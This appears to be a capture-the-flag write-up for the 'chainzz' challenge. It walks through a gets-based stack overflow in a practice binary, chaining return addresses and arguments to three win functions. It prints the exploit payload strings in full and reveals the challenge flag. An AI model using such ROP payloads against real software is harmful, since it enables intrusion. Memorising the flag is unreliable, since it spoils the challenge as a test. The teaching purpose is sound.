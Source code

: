 #chainzz

To be able to solve this, you would need to read up on the writeup for r0pbaby

You will also need to understand how arguments are passed when calling functions: (x86 calling conventions)[https://en.wikipedia.org/wiki/X86_calling_conventions]

For this challenge, we can see that the `vuln()` function is again using the vulnerable `gets` function.

We can conclude that this is a buffer overflow based challenge.

The source code for the binary has also been given which we can use to see whats going on during execution.

There appears to be a `win_function1`, `win_function2` and the `flag` function.

The `win_function1` appears to set the boolean value of win1 to true and the `win_function2` appears to check whether win1 has been set to true as well as the an argument, arg_check1 to be given thats set to `0xbaaccaad`. If those conditions are satified, it sets win2 to true.

Finally, the flag function which requires both win1 & win2 to be set to true as well as an argument, arg_check2 to be set to 0xdeadbeef.

To exploit this program we need to first find the offset at which we overwrite the eip.

Run the program with gdb and type `run <<< $(python -c "print 'A'*50")`.

After fiddling with the numbers, we can see that at offset 28, the eip starts to get overwritten.

Firstly, we need to call the win_function1 whose address we can find by typing `info functions win_function1`

Now back to the exploit, `run <<< $(python -c "print 'A'*28" + '\xe6\x85\x04\x08'")` should call win_function1 and then return segmentation fault as the return pointer has not been set.

According to the x86 calling conventions, when calling a function and supplying an argument, we would need the address of the function, return pointer after the function has executed and the argument.

Hence, since we did not set a return pointer, the program returns segmentation fault as it doesnt know what to execute next.

We should now add the address of win_function2 as the return pointer so that it executes.

exploit: `run <<< $(python -c "print 'A'*28" + '\xe6\x85\x04\x08' + '\xfd\x85\x04\x08'")` 

This should return `Wrong Argument. Try Again.` as we did not supply an argument.

To supply an argument, `run <<< $(python -c "print 'A'*28" + '\xe6\x85\x04\x08' + '\xfd\x85\x04\x08' + 'AAAA' + '\xad\xca\xac\xba'")`

This is because we do not want to set the return pointer yet and we just want to send the argument hence, placing the `AAAA` inbetween the win_function2 address and the arg_check1.

This should succesfully satisfy the 2 conditions and set win2 to true.

Next, we need to call the flag function.

Remember we set the return pointer to `AAAA` in the last exploit? Well now we need to set that to the `flag` function's address in order for the program to call it after executing the win_function2.

The exploit should look like this now: `run <<< $(python -c "print 'A'*28" + '\xe6\x85\x04\x08' + '\xfd\x85\x04\x08' + '\x66\x86\x04\x08' + '\xad\xca\xac\xba'")`

This should return `Incorrect Argument. Remember, you can call other functions in between each win function!` as we did not supply the arg_check2 which is required to be set to 0xdeadbeef.

To do this, we simply need to add the argument to the end of the exploit.

Final exploit: `run <<< $(python -c "print 'A'*28" + '\xe6\x85\x04\x08' + '\xfd\x85\x04\x08' + '\x66\x86\x04\x08' + '\xad\xca\xac\xba' + '\xef\xbe\xad\xde'")`

Things to note: Calling convention - `FUNCTION RET ARG`

##flag

`HNF{2_ch4inzzzzzz}`
